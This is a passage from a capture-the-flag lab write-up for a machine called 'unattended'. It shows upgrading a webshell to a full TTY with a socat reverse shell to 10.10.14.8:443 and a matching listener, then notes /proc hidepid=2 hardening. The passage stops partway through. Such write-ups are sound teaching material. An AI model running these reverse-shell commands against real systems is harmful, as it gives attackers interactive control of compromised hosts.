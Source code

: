 

### Shell Upgrade

Normally I would run the `python -c 'import pty;pty.spawn("bash")'`
trick here, but there's no python on the box:



    www-data@unattended:/var/www.md$ which python
    www-data@unattended:/var/www.md$ which python3
    www-data@unattended:/var/www.md$ locate python
    bash: locate: command not found
    www-data@unattended:/var/www.md$ find / -type f -name python* 2>/dev/null
    /usr/share/nano/python.nanorc



But `socat` is:



    www-data@unattended:/var/www.md$ which socat
    /usr/bin/socat



I can actually just use `socat` to get a full tty. I'll update my
webshell command to
`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:443`
and url-encode it.:

Then I'll listen with `socat`, and on hitting submit in repeater, I get
a shell:



    root@kali# socat file:`tty`,raw,echo=0 tcp-listen:443,reuseaddr
    www-data@unattended:/var/www.md$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



## Shell as guly

### System Hardening

#### hidepid=2

The box author hardened this box such that I can't see other users
processes. He did this by mounting [/proc with
hidepid=2](https://linux-audit.com/linux-system-hardening-adding-hidepid-to-proc/).
I can see this by running `mount`:



    guly@unattended:/boot$ mount | grep ^proc
    proc on /proc type proc (rw,relatime,hidepid=2)



This explains why when I run `ps auwxx` I only see processes belonging
to my current user:

